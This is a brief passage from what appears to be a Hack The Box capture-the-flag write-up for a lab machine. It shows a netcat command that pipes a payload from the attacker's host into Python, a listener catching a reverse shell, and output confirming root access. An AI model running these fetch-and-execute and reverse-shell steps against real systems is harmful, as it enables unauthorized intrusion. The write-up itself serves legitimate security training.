 ![](attachments/sense_11.png)

Then, I ran `nc 10.10.14.6 9000 | python` which is supposed to take the payload commands and run them locally.

When I exist the listener on port 9000, `python` is executed, and the reverse shell on port 9001 is established.

```vbnet
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001    
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 49401
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# whoami
root
```

I got a root shell!